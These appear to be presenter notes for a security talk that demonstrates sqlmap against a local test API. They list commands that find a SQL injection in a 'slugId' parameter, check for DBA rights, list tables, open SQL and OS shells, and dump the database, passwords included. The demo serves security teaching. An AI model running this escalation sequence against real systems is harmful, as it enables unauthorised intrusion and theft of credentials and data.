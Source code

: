 ﻿# Installation

https://github.com/sqlmapproject/sqlmap/wiki/Download-and-update


# Usage 

## Exploratory way 
```sh
py sqlmap.py -r GetSlugIdRequest.txt -p slugId # will test only slugId param
```


## Explicit way
```sh
py sqlmap.py -u http://localhost:5003/Test/GetId?slugId=a&version=1 -p slugId
```


## Commands used during presentation

```sh

Cd C:\sqlmap\sqlmapproject-sqlmap-1.6.8
py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ # AHA we have an injection! 
# Show the injection in the swagger (copy paste the output).

py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ --is-dba # do we have a DBA? 
py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ -–tables # what tables do we have in the database 
py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ --sql-shell # => select * from Apollo21.PackageDependencies 
py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ --os-shell # maybe os access? 
py sqlmap.py -u 'http://localhost:5003/Test/GetId?slugId=a’ --dump --fresh-queries # ((i want to search these data offline). Nice csv.) Passwords

```